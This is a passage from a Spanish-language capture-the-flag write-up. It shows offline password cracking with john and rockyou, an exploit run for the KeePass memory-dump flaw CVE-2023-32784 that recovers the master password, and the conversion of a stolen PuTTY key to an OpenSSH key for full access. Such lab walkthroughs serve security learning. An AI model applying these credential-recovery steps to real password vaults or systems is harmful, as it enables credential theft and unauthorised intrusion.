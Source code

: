 Con el `hash` extraído lo único que tendríamos que hacer es crackearlo con la herramienta de la siguiente forma

```bash
john --w=/usr/share/wordlists/rockyou.txt hash
```

- Como he mencionado anteriormente, no iba a funcionar de esa manera pero ahí la tenéis como manera de aprendizaje, como podemos ver, no solo tenemos el fichero `.kdbx` sino que también hay un `.dmp` que viene siendo un `dumpeo` de la memoria, si investigamos un poco podemos ver que `Keepass` tenia una vulnerabilidad que a través de un `dumpeo` de la memoria podíamos obtener el valor de la clave maestra es texto claro, por lo que indagando un poco he encontrado la siguiente vulnerabilidad `CVE-2023-32784`. Hay mucho exploits para esta vulnerabilidad desarrollados en infinidad de lenguajes pero yo he elegido el siguiente [exploit](https://github.com/dawnl3ss/CVE-2023-32784).

```bash
python3 poc.py KeePassDumpFull.dmp
2024-10-29 13:40:47,756 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

Nos devuelve las posibles credenciales que pueden ser, si buscamos eso en google nos sale lo siguiente

`Rødgrød med Fløde`

- Probamos la password tanto en minúsculas como mayúsculas para ver si puede funcionar

![[Pasted image 20241029144349.png]]

Y ganamos acceso al gestor

![[Pasted image 20241029144417.png]]

- Podemos ver la password, pero al testearla nos damos cuenta de que no nos sirve para ganar acceso total al equipo, por lo que indagando un poco vemos que en las notas nos encontramos un clave privada de `Putty`, si investigamos un poco hay una forma para pasar las claves privadas de `Putty` a claves privadas de `ssh`, por lo que vamos a intentar convertirla y ganar acceso completo al equipo victima.

```bash
sudo apt-get install putty-tools
puttygen id_dsa.ppk -O private-openssh -o id_rsa
puttygen id_dsa.ppk -O public-openssh -o id_rsa.pub
chmod 600 id_rsa
```

